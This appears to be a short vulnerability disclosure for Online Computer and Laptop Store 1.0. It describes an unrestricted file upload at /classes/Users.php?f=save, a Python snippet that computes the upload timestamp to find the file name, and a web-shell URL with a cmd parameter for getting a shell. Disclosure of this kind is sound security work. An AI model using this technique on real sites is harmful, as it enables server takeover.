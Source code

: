 # php-ocls
php-ocls
Online Computer and Laptop Store 1.0 allows Unrestricted file upload and can lead to remote code execution. The vulnerability located in /classes/Users.php?f=save. The name of the uploaded file can be easily obtained through the timestamp.

![图片](https://user-images.githubusercontent.com/58156046/233908793-43f8a51e-ea97-4bc1-a133-24040bd21e12.png)

1. Send the request and note when it was sent.

![图片](https://user-images.githubusercontent.com/58156046/233908652-5bebd05d-ac45-44af-969c-8dbfa31c12a4.png)

2. Calculate the timestamp.

import time

timeArray = time.strptime('2023-04-24 13:40:00', "%Y-%m-%d %H:%M:%S")
time_format= time.mktime(timeArray)
print(int(time_format))

3. Get Shell.
http://192.168.3.43/php-ocls/uploads/1682314800_shell.php?cmd=phpinfo();

![asdasdasd](https://user-images.githubusercontent.com/58156046/233910339-3bdf9181-19b1-4950-bcdc-7c514c40f19d.png)
